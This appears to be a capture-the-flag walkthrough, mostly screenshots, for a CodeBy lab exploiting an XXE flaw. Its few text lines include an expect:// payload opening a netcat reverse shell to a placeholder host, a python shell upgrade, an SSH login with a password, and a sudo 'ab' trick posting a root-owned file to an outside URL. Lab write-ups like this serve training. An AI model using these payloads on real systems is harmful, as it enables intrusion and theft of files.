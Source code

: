 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/076d9062-4f17-426b-a613-fc5271b4e2f9)

https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/80a4b9b8-da5f-4806-ae03-135afa50cc43)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2218528f-84d9-4cca-a64b-02d50816efe8)

`expect://nc.traditional$IFS-e$IFS/bin/bash$IFS'IP'$IFS'1234'"`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/18947995-d2e0-444e-ab48-5c4769458ebc)

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/327254c2-67c2-43b2-9032-082f96227a9b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bd0e4092-8b60-4b4e-8ecf-3c48f7de4fef)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/232f1a91-680b-406f-a4f7-7f5282bc54c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/40b016ae-276c-46ac-a83a-18ba7783b63a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3d3b809b-85ba-410f-8a17-57c80e780954)

`revers`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d98e6dcb-be1e-4940-9760-ccf46ded2895)
```
ssh elliot@62.173.140.174 -p18422 password: PASS_REVERS
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/69ddb254-03c6-419e-889a-a599d1fe0ba4)

https://gtfobins.github.io/gtfobins/ab/

```
URL=http://IP:1234/
LFILE=/root/last_part
sudo ab -p $LFILE $URL
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/de6975b4-be05-4bfe-b5ae-0a543bfc120d)









